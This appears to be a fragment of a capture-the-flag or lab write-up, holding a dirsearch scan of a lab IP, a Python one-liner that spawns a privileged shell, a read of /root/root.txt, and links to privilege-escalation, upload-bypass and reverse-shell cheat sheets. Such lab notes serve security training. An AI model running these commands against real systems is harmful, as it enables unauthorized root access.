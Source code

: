 ```shell
dirsearch -u 10.10.198.78
```

```shell
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```shell
cat /root/root.txt
```


LINKS
-----
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
https://steflan-security.com/file-upload-restriction-bypass-cheat-sheet/
https://gtfobins.github.io/gtfobins/python/
https://www.revshells.com/
https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell
https://github.com/y3rb1t4/htb-arg/blob/main/00-my-notes/shell-interactive.md